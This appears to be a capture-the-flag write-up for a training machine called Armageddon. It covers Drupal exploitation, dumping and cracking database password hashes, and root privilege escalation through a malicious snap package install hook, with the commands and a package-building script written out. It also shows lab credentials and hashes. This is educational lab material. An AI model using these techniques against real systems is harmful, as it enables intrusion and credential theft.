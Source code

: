 # My solution

Start with usual nmap enumeration 
```sh
>> nmap -sV -sC -oN nmap-initial 10.10.10.233

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```

## Foothold

It is possible to notice some exposed resources from the output of nmap.   
The file *CHANGELOG.txt* reports that the Drupal version in use is the 7.56, whose last update was in 2017.  
It tells us that the service has not been updated for a while. Thus we look for vulnerabilities in Drupal.

```sh
>> searchsploit drupal 7.56                                                                                                                                                                          
-------------------------------------------------------------------------------- ---------------------------------                                                                                                                         
 Exploit Title                                                                  |  Path                                                                                                                                                    
-------------------------------------------------------------------------------- ---------------------------------                                                                                                                         
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)        | php/webapps/44557.rb                                                                                                                                     
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)     | php/webapps/44542.txt                                                                                                                                    
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execu | php/webapps/44449.rb                                                                                                                                     
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Met | php/remote/44482.rb                                                                                                                                      
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC | php/webapps/44448.py               
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command  | php/remote/46510.rb                
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                  | php/webapps/46452.txt              
Drupal < 8.6.9 - REST Module Remote Code Execution                              | php/webapps/46459.py               
-------------------------------------------------------------------------------- ---------------------------------   
```

We are looking for remote code execution. *Drupalgeddon3* seems to be what we really need. 


#### Using metasploit
The exploit is also available as a metasploit module: `unix/webapp/drupal_drupalgeddon2 `   
We set the options and run the exploit. We get a meterpreter shell as the **apache** user

The exploit can be easily performed without metasploit. Try it if you want more insights on the vulnerability and how the exploit works.  
Alternatively, you can set the proxy option in the meterpreter module, pointing to your proxy (e.g. Burp). You can then study the traffic to analyze what the exploit is doing.

## User

By printing the /etc/passwd file we find out that the machine has a user named brucetherealadmin.
```sh
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```


The file *.gitignore* lists some interesting files that is worth looking at.  
One of them is the *sites/* directory.

We analyze the content of this directory and after some minutes of manual search, we found in *sites/all/settings* the password of *drupaluser* for the *mysql* database.
```
$databases = array (                                                                                 
  'default' =>                                                                                       
  array (                                                                                            
    'default' =>                                                                                     
    array (                                                                                          
      'database' => 'drupal',                                                                        
      'username' => 'drupaluser',                                                                    
      'password' => 'CQHEy@9M*m23gBVj',                                                              
      'host' => 'localhost',                                                                         
      'port' => '',                                                                                  
      'driver' => 'mysql',                                                                           
      'prefix' => '',                                                                                
    ),                                                                                               
  ),                                                                                                 
);    
```

We first try the password with *brucetherealadmin* in ssh but does not work. 

As expected, the credentials are valid for the myswl database.

I couldn't access the database interactively because the shell froze after each attempt. So I wrote an inline mysql command to get the names of the tables:
```sh
mysql -u drupaluser -p drupal -e "show tables;"
```
The database has a bunch of tables. We proceed by dumping the *Users* table and getting the password hash of *brucetherealadmin*.
```
bash-4.2$ mysql -u drupaluser -p drupal -e "select name,pass,mail from users;"
Enter password: 
name    pass    mail

brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu
kera    $S$D4fb5rvwm0575Wnd4tgE.vhQ7xMjPiK0g/yC5xbH2EXQe7lKx22R kera@local.host
xsombi  $S$DdWvgfvc2Sv4BChUQLYUpvbvL5poB/6y0A0j.7OrlPnGRDEoaUCx xsombi@mail.com
blafucker       $S$DtI2o1d6OJzZn6cn4TlFBuGpCskt6VYkbE21YiemNVCtNoJGiM3Y bla@bla.com
```

The hash is in Drupal7 format, which is not available in hashcat but it's supported by John the Ripper.

```sh
john --format=Drupal7 --wordlist /usr/share/wordlists/rockyou.txt hash
```
In less then a second we get the cracked password: `booboo`

We can now login to brucetherealadmin in ssh and get the flag.


## Root
We enumerate which commands the user *brucetherealadmin* can execute as sudo.
As we see from the output of `sudo -l`, the user can execute `sudo snap install *` without being asked for a password. The **\*** means that any argument can be passed. 

Such behavior looks quite odd. We look in *GTFObins* to see if it can be exploitable.  
Turns out that we can build our own malicious snap package and install it in the victim machine, triggering code execution under the *root* user. 

We slightly modify the GTFO script to print the root flag ( a reverse shell could have been injected too), and we run it in the host machine. The malicious snap package will be created.
```sh
COMMAND='cat /root/root.txt'
init_dir=$(pwd)
temp=$(mktemp -d)
cd $temp
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n namesnap -s dir -t snap -a all meta
cp  $temp/namesnap* $init_dir
```

We transfer the package just created to the victim machine and we install it.  
Install the snap package:
```sh
[brucetherealadmin@armageddon tmp]$ sudo snap install /tmp/out.snap --dangerous --devmode                                                                                                              
error: cannot perform the following tasks:
- Run install hook of "namesnap" snap if present (run hook "install": 44ea752ae10856a7f3200e0e7718d898)
```

The --dangerous flag is required because the snap is not signed by the Snap Store. The --devmode flag acknowledges that you are installing an unconfined application.

The root flag is displayed.
